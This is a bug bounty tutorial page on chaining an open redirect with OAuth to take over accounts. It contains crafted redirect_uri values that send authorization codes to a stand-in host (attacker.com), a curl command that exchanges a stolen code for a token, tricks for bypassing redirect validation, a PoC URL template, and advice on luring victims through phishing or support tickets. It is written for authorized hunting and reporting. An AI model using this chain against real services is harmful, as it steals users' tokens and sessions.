

> Source: https://bugbounty.info/Chains/Open-Redirect-to-ATO

# Open Redirect to OAuth Account Takeover

## Why This Chain Works

An open redirect by itself gets closed as informational half the time. But if the target uses OAuth and you can redirect the `redirect_uri` through your open redirect, you can steal authorization codes. The OAuth server trusts the registered domain. You're not bypassing that trust, you're routing through it.

Related: [OAuth Misconfigurations](../Attack-Surface/Web/Authentication/OAuth), [Chain Thinking](../Methodology/Chain-Thinking), [Parameter Discovery](../Recon/Parameter-Discovery)

---

## Attack Flow



---

## Step-by-Step

### 1. Find the Open Redirect

Look for these patterns on the target domain:

- `?redirect=`, `?next=`, `?url=`, `?return_to=`, `?continue=`
- Post-login redirect parameters
- 3rd-party SSO return URLs

Test with `https://target.com/redirect?url=https://attacker.com` and confirm you get a 302 to attacker.com. You need a confirmed, reliable redirect on a domain registered in the OAuth app's allowed list.

### 2. Map the OAuth Flow

Intercept a normal login. Find the authorization request:

```http
GET /oauth/authorize?
  response_type=code
  &client_id=CLIENT_ID
  &redirect_uri=https://target.com/callback
  &scope=openid profile
  &state=RANDOM_STATE
```

Note the exact `redirect_uri` value. That's your target.

### 3. Craft the Malicious redirect_uri

Replace the registered redirect_uri with your open redirect chain:

```text
redirect_uri=https://target.com/redirect?url=https://attacker.com/catch
```

The OAuth server sees `https://target.com/...` which matches the registered domain. It doesn't parse the nested URL.

### 4. Send to Victim

Build the full authorization URL with your crafted redirect_uri and send it to the victim (phishing, link in a public post, etc.). When they authenticate, the server issues the code and redirects to:

```text
https://target.com/redirect?url=https://attacker.com/catch&code=AUTH_CODE&state=STATE
```

target.com then redirects to:

```text
https://attacker.com/catch?code=AUTH_CODE&state=STATE
```

Your server logs it. The `Referer` header on subsequent requests from your page will also contain it.

### 5. Exchange the Code

```bash
curl -X POST https://target.com/oauth/token \
  -d "grant_type=authorization_code" \
  -d "code=AUTH_CODE" \
  -d "redirect_uri=https://target.com/redirect?url=https://attacker.com/catch" \
  -d "client_id=CLIENT_ID" \
  -d "client_secret=CLIENT_SECRET"
```

You get back an access token. Log in as the victim.

---

## Validation Bypass Tricks

- **Prefix match bypass:** If the server checks `startsWith("https://target.com")`, use `https://target.com.attacker.com` (if they're sloppy) or chain through a legit open redirect on target.com.
- **Path traversal:** `https://target.com/callback/../redirect?url=attacker.com`
- **Fragment abuse:** Some flows pass the code in the fragment; test `redirect_uri=https://attacker.com` with a page that reads `location.hash`.
- **Registered subdomain:** If `sub.target.com` is registered and you find an open redirect there, that works too.

---

## Real-World Scenario

You're hunting on a SaaS platform. They use "Login with Google." The OAuth callback is `https://app.target.com/auth/callback`. You find `https://app.target.com/go?to=https://evil.com` is a working open redirect. The Google OAuth app has `https://app.target.com` registered as an allowed redirect prefix. You chain them, send a crafted link to a support ticket, and when the support agent clicks it, you have their session.

---

## PoC Template

```text
Crafted URL:
https://accounts.google.com/o/oauth2/auth?client_id=CLIENT_ID&redirect_uri=https://target.com/go%3Fto%3Dhttps%3A%2F%2Fattacker.com%2Fcatch&response_type=code&scope=openid+email
 
Attacker server (attacker.com/catch): log all incoming query params and Referer headers.
```

---

## Reporting Notes

Report the open redirect and the OAuth ATO together as a single chain. Severity is the ATO severity, not the open redirect severity. Show the full PoC including the code exchange step. Triagers need to see the token in hand, not just the redirect.

## Public Reports

Real-world open redirect to account takeover chains across bug bounty programs:

- Open redirect on cs.money chained with OAuth login for full account takeover - [HackerOne #905607](https://hackerone.com/reports/905607)
- OAuth token theft via open redirect on login.fr.cloud.gov - [HackerOne #665651](https://hackerone.com/reports/665651)
- Open redirect on Twitter leaking authenticity tokens - [HackerOne #49759](https://hackerone.com/reports/49759)
- One-click account takeover via open redirect on Hostinger - [HackerOne #3081691](https://hackerone.com/reports/3081691)
